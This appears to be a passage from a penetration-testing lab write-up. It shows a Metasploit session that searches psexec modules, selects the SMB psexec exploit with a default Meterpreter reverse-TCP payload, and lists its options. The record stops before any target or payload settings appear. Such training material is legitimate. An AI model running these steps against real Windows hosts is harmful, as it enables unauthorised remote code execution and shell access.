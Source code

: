 [Microsoft Windows Authenticated User Code Execution](https://www.rapid7.com/db/modules/exploit/windows/smb/psexec/)

```
root@attackdefense:~# service postgresql start && msfconsole -q
Starting PostgreSQL 12 database server: main.
msf5 > search psexec

Matching Modules
================

   #   Name                                         Disclosure Date  Rank       Check  Description
   -   ----                                         ---------------  ----       -----  -----------
   0   auxiliary/admin/smb/ms17_010_command         2017-03-14       normal     No     MS17-010 EternalRomance/EternalSynergy/EternalChampion SMB Remote Windows Command Execution
   1   auxiliary/admin/smb/psexec_command                            normal     No     Microsoft Windows Authenticated Administration Utility
   2   auxiliary/admin/smb/psexec_ntdsgrab                           normal     No     PsExec NTDS.dit And SYSTEM Hive Download Utility
   3   auxiliary/scanner/smb/impacket/dcomexec      2018-03-19       normal     No     DCOM Exec
   4   auxiliary/scanner/smb/impacket/wmiexec       2018-03-19       normal     No     WMI Exec
   5   auxiliary/scanner/smb/psexec_loggedin_users                   normal     No     Microsoft Windows Authenticated Logged In Users Enumeration
   6   encoder/x86/service                                           manual     No     Register Service
   7   exploit/windows/local/current_user_psexec    1999-01-01       excellent  No     PsExec via Current User Token
   8   exploit/windows/local/wmi                    1999-01-01       excellent  No     Windows Management Instrumentation (WMI) Remote Command Execution
   9   exploit/windows/smb/ms17_010_psexec          2017-03-14       normal     Yes    MS17-010 EternalRomance/EternalSynergy/EternalChampion SMB Remote Windows Code Execution
   10  exploit/windows/smb/psexec                   1999-01-01       manual     No     Microsoft Windows Authenticated User Code Execution
   11  exploit/windows/smb/psexec_psh               1999-01-01       manual     No     Microsoft Windows Authenticated Powershell Command Execution
   12  exploit/windows/smb/webexec                  2018-10-24       manual     No     WebExec Authenticated User Code Execution


Interact with a module by name or index, for example use 12 or use exploit/windows/smb/webexec

msf5 > use exploit/windows/smb/psexec
[*] No payload configured, defaulting to windows/meterpreter/reverse_tcp
msf5 exploit(windows/smb/psexec) > show options

Module options (exploit/windows/smb/psexec):

   Name                  Current Setting  Required  Description
   ----                  ---------------  --------  -----------
   RHOSTS                                 yes       The target host(s), range CIDR identifier, or hosts file with syntax 'file:<path>'
   RPORT                 445              yes       The SMB service port (TCP)
   SERVICE_DESCRIPTION                    no        Service description to to be used on target for pretty listing
   SERVICE_DISPLAY_NAME                   no        The service display name
   SERVICE_NAME                           no        The service name
   SHARE                 ADMIN$           yes       The share to connect to, can be an admin share (ADMIN$,C$,...) or a normal read/write folder share
   SMBDomain             .                no        The Windows domain to use for authentication
   SMBPass                                no        The password for the specified username
   SMBUser                                no        The username to authenticate as


Payload options (windows/meterpreter/reverse_tcp):
```